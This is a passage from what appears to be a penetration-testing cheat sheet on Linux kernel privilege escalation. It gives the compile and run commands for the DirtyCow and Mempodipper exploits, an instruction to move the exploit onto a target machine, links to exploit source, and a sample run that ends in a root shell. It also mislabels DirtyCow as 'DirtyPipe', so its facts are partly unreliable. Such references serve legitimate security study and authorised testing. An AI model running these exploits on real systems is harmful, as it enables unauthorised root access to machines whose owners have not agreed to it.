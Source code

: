 ## DirtyC0w - Linux Kernel 2.6.22 < 3.9

`DirtyPipe` allows overwriting data in arbitrary read-only files that leverages to a privilege escalation.

```bash
gcc -pthread dirty.c -o dirty -lcrypt
```

Transfer the exploit to the target machine.

```bash
chmod +x dirty
./dirty
```

* [https://github.com/FireFart/dirtycow/blob/master/dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c)

## Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)

```bash
$ gcc mempodipper.c -o mempodipper
$ chmod +x mempodipper

$ ./mempodipper
===============================
=          Mempodipper        =
=           by zx2c4          =
=         Jan 21, 2012        =
===============================

[+] Waiting for transferred fd in parent.
[+] Executing child from child fork.
[+] Opening parent mem /proc/1977/mem in child.
[+] Sending fd 3 to parent.
[+] Received fd at 5.
[+] Assigning fd 5 to stderr.
[+] Reading su for exit@plt.
[+] Resolved exit@plt to 0x8049520.
[+] Calculating su padding.
[+] Seeking to offset 0x8049514.
[+] Executing su with shellcode.
# whoami
root
#
```

* [https://www.exploit-db.com/exploits/18411](https://www.exploit-db.com/exploits/18411)

## Abusing SUID/GUID Files

